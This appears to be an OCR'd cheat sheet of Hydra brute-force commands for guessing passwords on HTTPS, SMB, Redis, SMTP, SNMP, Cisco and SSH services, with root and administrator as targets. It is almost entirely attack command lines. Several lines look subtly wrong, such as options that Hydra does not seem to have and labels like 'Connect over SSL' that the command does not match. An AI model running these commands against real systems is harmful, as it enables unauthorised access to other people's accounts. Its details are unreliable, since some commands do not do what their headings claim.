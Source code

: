 **Use a client certificate:**  

```
hydra --ssl-cert cert.pem 192.168.1.141 https -V
```

## SMB Authentication 
**NTLM authentication:**   

```  
hydra -l administrator -P pass.txt 192.168.1.141 smb
``` 

**Kerberos authentication:**  
```
hydra -l administrator -P pass.txt 192.168.1.141 smb -I kerberos.conf
```

## Redis Brute Forcing
**Connect over SSL:** 

```
hydra -P pass.txt redis://192.168.1.141 -s 6379 
```

## SMTP Brute Forcing  
**Enumerate users:**

```
hydra -P pass.txt 192.168.1.141 smtp-enum
```

**Brute force with VRFY:**  
```
hydra -l USER -P pass.txt smtp://192.168.1.141
```

## SNMP Brute Forcing 
**Community strings:**   

```
hydra -P comm-pass.txt 192.168.1.141 snmp 
```

## Attacking Cisco Devices
**Enable password:**  

```
hydra -P pass.txt cisco://192.168.1.1 
``` 

## SSH Brute Forcing
**SSH using passphrases:**
```  
hydra -l root -P passphrases.txt 192.168.1.141 ssh -t 4
```

**Target SSH key login:**   
```
hydra -l root -P public_keys 192.168.1.141 sshkey
```
